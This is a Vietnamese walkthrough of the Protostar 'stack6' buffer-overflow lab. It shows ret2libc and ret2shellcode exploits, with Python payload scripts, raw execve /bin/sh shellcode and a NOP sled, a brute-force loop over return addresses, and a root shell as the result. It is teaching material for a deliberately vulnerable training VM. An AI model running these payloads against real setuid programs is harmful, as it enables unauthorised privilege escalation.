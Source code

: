 ## Stack6

Bài này họ sẽ chặn việc ta ghi đè return address thành các địa chỉ bắt đầu bằng `0xbf`.

```c 
ret = __builtin_return_address(0);

if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
}

```
Các địa chỉ của stack thì sẽ đi từ `0xbffeb000` đến `0xc0000000` (nghĩa là hầu như tất cả đều bắt đầu bằng `0xbf`, vậy là ta sẽ không thể ghi đè return address để jump đến một nơi nào đó trên stack mà thực thi được, vậy nên giờ ta sẽ dùng những phương pháp khác

### Ret2libc 

Với phương pháp này, ta sẽ return đến địa chỉ của hàm system, cụ thể hơn là `__libc_system`

![](https://i.imgur.com/ndpEY0L.png)

Nhìn vào hình ảnh trên đây, ở phần after overflow, sau khi padding 16 chữ A để đến được vị trí đặt return address thì attacker sẽ đưa địa chỉ của hàm system trong libc vào đó, 4 bytes sau sẽ là địa chỉ của hàm exit và 4 bytes cuối là địa chỉ của chuỗi /bin/sh

Lý do stack layout lại trông như thế này là vì sau khi nhảy đến thực thi một hàm, thì trước ebp sẽ là địa chỉ trả về và sau đó nữa là các tham số (arguments), vậy ở đây khi thực hiện ret2libc, ta cũng sẽ tạo một stack layout như vậy, lấy địa chỉ của exit làm địa chỉ trả về để khi thực thi xong thì exit luôn, tìm địa chỉ của chuỗi /bin/sh (có thể lấy từ enviroment trong stack hoặc lấy từ libc) rồi để vào chỗ của các arguments, lúc này khi chạy chương trình sẽ gọi đến system và thực thi lệnh `/bin/sh`

Đầu tiên ta tìm địa chỉ của system, ta có thể dùng lệnh `p system trong gdb` hoặc lệnh find

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>

```

Để tìm chuỗi `/bin/sh` thì ta có thể dùng lệnh find hoặc string grep thẳng trên file libc
```
user@protostar:/tmp$ strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
11f3bf /bin/sh
```

Có được offset là `11f3bf`, ta `info proc map` để xác định miền memory của libc rồi cộng offset trên với địa chỉ bắt đầu
```
(gdb) info proc map
process 20526
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fde000 0xb7fe2000     0x4000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) x/s 0xb7e97000+0x11f3bf
0xb7fb63bf:	 "/bin/sh"
```

Tìm hàm exit cũng tương tự như hàm system

Sau khi đã có 3 địa chỉ rồi, ta sẽ kết hợp với việc tìm khoảng cách trên stack giữa biến buffer với địa chỉ trả về là 80 bytes để padding 80 chữ A

```
import struct

padding = "A"*80
system_addr = struct.pack("I",0xb7ecffb0)
exit_addr = struct.pack("I",0xb7ec60c0)
binsh_addr = struct.pack("I",0xb7fb63bf)
#shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding+system_addr+exit_addr+binsh_addr

```

```
user@protostar:/opt/protostar/bin$ (cat ~/payload; cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA����`췿c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2shellcode
Một cách khác đó là ta có thể bypass cái check trên, bằng cách thay vì dùng trực tiếp `ret` của `getpath` thì thay vào đó ta sẽ dùng `ret` của `main`, nghĩa là ta sẽ ghi đè return address trên stack thành địa chỉ của opcode `ret` của main trong .text segment, vì là jump đến .text segment chứ không jump đến stack nên ta sẽ bypass được cái check trên. Khi nhảy để `ret` của main thì ta sẽ đặt shellcode ở một nơi nào đó trên stack, cùng với đó là địa chỉ bắt đầu của shellcode đó ngay đỉnh của stack để khi chương trình chạy đến `ret` của main thì ta nó sẽ return về địa chỉ ở ngay đỉnh stack là địa chỉ của shellcode

Code:
```c
import struct

padding = "A"*80
main_ret_addr = struct.pack("I",0x08048508)
#shellcode_addr = struct.pack("I", 0xbffff6e4)
shellcode_addr = struct.pack("I", 0xbffff744)
shellcode = "\x90"*0x80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding+main_ret_addr+shellcode_addr+shellcode

```

Như bạn thấy mình có comment biến `shellcode_addr` thứ nhất lại, vì nó là địa chỉ khi debug bằng gdb, nó sẽ chỉ đúng khi ta làm với gdb thôi. Mình dùng code brute hôm trước để tìm địa chỉ đúng, padding thêm `nop` để tăng tỉ lệ thành công

```c
import struct
import os

padding = "A"*80
main_ret_addr = struct.pack("I",0x08048508)
shellcode_addr = 0xbffff6e4
shellcode = "\x90"*0x80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

for i in range(0, 0xff):
                f = open("test.txt","w")
                this_addr = shellcode_addr + i*4
                pack_addr = struct.pack("I", this_addr)
                f.write(padding+main_ret_addr+pack_addr+shellcode+b'\n')
                f.close() # close file before cat or else it wont print out result
                print "[*] EIP: {0} ".format(hex(this_addr))
                out_ = os.popen("(cat test.txt ; echo ls ) | /opt/protostar/bin/stack6").read()
                #if len(out_):
                        #print out_
                        #break

```

```
user@protostar:/opt/protostar/bin$ (cat /home/user/payload; cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAD�����������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin����°
                                                                               1�@̀
ls
final0	final2	 format1  format3  heap0  heap2  net0  net2  net4    stack1  stack3  stack5  stack7
final1	format0  format2  format4  heap1  heap3  net1  net3  stack0  stack2  stack4  stack6
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```
